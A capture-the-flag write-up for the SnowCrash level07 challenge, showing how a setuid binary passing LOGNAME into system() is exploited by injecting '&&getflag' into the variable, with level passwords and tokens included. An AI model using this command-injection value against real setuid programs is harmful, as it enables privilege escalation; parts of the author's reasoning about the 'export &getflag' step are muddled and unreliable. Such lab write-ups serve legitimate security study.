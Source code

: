 ## Level07

Login as usual wih a password

```
ssh -i ~/.ssh/id_rsa.pub level07@127.0.0.1 -p 4242
wiok45aaoguiboiki2tuin6ub
```

We saw a level07 file as below

```
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```

So,let's dig in to this file, Overall, the output indicates that level07 is a 32-bit ELF(Executable and Linkable Format)executable file with setuid and setgid permissions, dynamically linked, and intended to run on GNU/Linux systems.
The presence of the text "ELF" in the output confirms that it is indeed a binary file.

<details>
  <summary> Binary file </summary>
  A binary file is a type of computer file that stores data in a format that is not human-readable. Unlike text files, which store data as a sequence of characters encoded using a character encoding scheme (such as ASCII or Unicode), binary files store data in a format that is directly understandable by a computer's hardware and software.
  </details>

```
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

I executed this file, and nothing came out.

```
level07@SnowCrash:~$ ./level07
level07
```

So, let's use **ltrace** command to understand/to debug the behavior of this program

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                      = 2007
geteuid()                                                                      = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                            = 0
getenv("LOGNAME")                                                              = "level07"
asprintf(0xbffff704, 0x8048688, 0xbfffff3c, 0xb7e5ee55, 0xb7fed280)            = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

From this output, it appears that the level07 program sets its group and user IDs, retrieves the username "level07", constructs a command string using that username, and then executes the command to print the username "level07".

So, I can see the **getenv("LOGNAME") = "level07"**

Given this spec, let's check the logname
(This tells the shell to substitute the value of the variable LOGNAME into the command before executing. As we saw before precedant exercise, need to put $ to get the value - traits of shell)

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```

I did small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

1. `export LOGNAME="HELLO_WORLD"`: This command sets the value of the environment variable `LOGNAME` to "HELLO_WORLD". The `export` keyword makes this variable available to all subsequently executed programs within the current shell session.

2. `./level07`: This command executes the `level07` program in the current directory.

Therefore, when you run `./level07`, the `level07` program is executed with the value of the `LOGNAME` environment variable set to "HELLO_WORLD". As a result, the program prints "HELLO_WORLD" because that is the value of the `LOGNAME` variable that it uses during execution.

With the same logic, I use the command **export &getflag** and I got the very interesting informations.

```
level07@SnowCrash:~$ export &getflag
[1] 15957
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.22"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="&&getflag"
declare -x LS_COLORS="rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
declare -x MAIL="/var/mail/level07"
declare -x OLDPWD="/home/user/level07"
declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
declare -x PWD="/home/user/level07"
declare -x SHELL="/bin/bash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="10.0.2.2 54751 4242"
declare -x SSH_CONNECTION="10.0.2.2 54751 10.0.2.15 4242"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm-256color"
declare -x USER="level07"
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
[1]+  Done                    export
```

Take a look at **declare -x LOGNAME="&&getflag"**.

The command `declare -x LOGNAME="&&getflag"` is used to create or modify an environment variable named `LOGNAME` and set its value to `"&&getflag"`.

Here's a breakdown of each part of the command:

- `declare`: This is a bash built-in command used to declare variables and give them attributes. In this case, it's used to declare an environment variable.

- `-x`: This option is used to export the variable to the environment. It makes the variable available to all subsequently executed programs within the current shell session.

- `LOGNAME`: This is the name of the environment variable being declared.

- `"&&getflag"`: This is the value assigned to the `LOGNAME` variable. In this case, it's the string `"&&getflag"`. The `&&` operator is a logical AND operator in bash, and `getflag` appears to be a command. So, the value of `LOGNAME` is set to the string `"&&getflag"`, which includes the `&&` operator followed by the command `getflag`.

So, based on this info, let's assign the value `LOGNAME="&&getflag"`with export command.

When you run the command `export LOGNAME="&&getflag"`, you are setting the value of the `LOGNAME` environment variable to `"&&getflag"` and exporting it. This means that `LOGNAME` will be available to all subsequently executed programs within the current shell session. And we got the token after execution of the file of ./level07

```
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

<details>
  <summary> Password </summary>
  fiumuikeil55xe9cu4dood66h
  </details>
